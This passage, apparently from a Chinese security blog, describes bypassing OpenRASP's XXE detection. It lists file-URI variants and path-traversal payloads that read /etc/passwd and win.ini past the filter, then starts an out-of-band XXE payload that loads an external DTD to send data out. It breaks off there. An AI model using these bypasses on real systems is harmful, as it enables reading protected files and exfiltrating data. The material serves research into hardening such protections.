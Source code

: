 如之前所述，正常使用file协议读取文件，xxe算法3开启后，openrasp会拦截

```
file:///c:/windows/win.ini
file:///etc/passwd
```

但使用如下方式，就能成功绕过xxe算法3了

```
file:/c:/windows/win.ini        // 删除file协议后面2个/
file:c:/windows/win.ini            // 删除file协议后面3个/
```

算法3还有另外一种绕过方法。

```
file://localhost/c:/windows/win.ini
```

验证如下

[![](https://p0.ssl.qhimg.com/t01a9495fff149f8338.png)](https://p0.ssl.qhimg.com/t01a9495fff149f8338.png)

### <a class="reference-link" name="Linux%E7%8E%AF%E5%A2%83"></a>Linux环境

```
file:/etc/passwd    // 可以
file:etc/passwd        // 失败
file://localhost/etc/passwd     // 可以
```

`file:etc/passwd`没有被拦截，但也读取不到文件。但可以修改后使用下面这个payload，就能读取到/etc/passwd文件内容了。

```
file:../../../../../../../../etc/passwd
```

[![](https://p3.ssl.qhimg.com/t016e852bba51acf7cd.png)](https://p3.ssl.qhimg.com/t016e852bba51acf7cd.png)



## 算法2 – 使用ftp://等异常协议加载外部实体绕过

算法2默认开启拦截。为了方便，把上面的算法3拦截关闭，修改为默认值log。

先拿xxe ftp的测试payload试下。给007-xxe.jsp的data参数传递如下值

```
&lt;?xml version="1.0"?&gt;
&lt;!DOCTYPE data [
&lt;!ENTITY % remote SYSTEM "http://127.0.0.1:9000/1.dtd"&gt;
%remote;
%send;
]&gt;
&lt;data&gt;4&lt;/data&gt;
```
